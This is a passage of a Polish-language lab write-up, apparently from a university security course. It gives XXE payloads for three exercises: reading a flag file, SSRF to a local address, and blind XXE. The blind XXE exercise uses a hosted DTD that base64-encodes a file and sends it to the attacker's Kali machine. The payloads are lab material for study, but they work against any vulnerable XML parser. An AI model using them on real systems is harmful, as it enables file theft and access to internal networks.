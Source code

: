 Payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE pjatk [<!ENTITY xxe SYSTEM "/flag13.1.txt"> ]>
 <note>
 <to>Tove</to>
 <from>Jani</from>
 <heading>&xxe;</heading>
 <body>Don't forget me this weekend!</body>
 </note>
```
### SSRF
Celem zadania jest wykorzystanie podatności XXE do wysłania zapytania HTTP pod adres:  
http://192.168.100.13/solve13.2/ 
Za pomocąadresulokalnego 127.0.0.1

Payload:
````xml
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE pjatk [ <!ENTITY ssrf SYSTEM "http://127.0.0.1/solve13.2/"> ]>
 <note>
 <to>Tove</to>
 <from>Jani</from>
 <heading>&ssrf;</heading>
 <body>Don't forget me this weekend!</body>
 </note>
````
Aplikacja powinna dać wiadomość Error.

### Blind XXE
Celem zadania jest odczytanie pliku /flag13.3.txt za pomocą podatności XXE i wysłanie jej na Kali. Zadanie nie odbija żadnych danych od parsera XML!  
URL:http://192.168.100.13/site3/  

NaKali należy zahostować plik xxe.dtd (python-m http.server 80)

Zawartość xx.dtd:
```dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/flag13.3.txt">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://10.65.0.6/%file;'>">
 %eval;
 %exfil;
```

Wykorzystuje on zbudowany w php mechanizm php://filter, który zakoduje flagę z potencjalnymi specjalnymi znakami za pomocą base64.  

Payload:
```xml
?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE pjatk [<!ENTITY % xxe SYSTEM "http://10.65.0.6/xxe.dtd"> %xxe;]>
 <note>
 <to>Tove</to>
 <from>Jani</from>
 <heading>Reminder</heading>
 <body>Don't forget me this weekend!</body>
 </note>
```
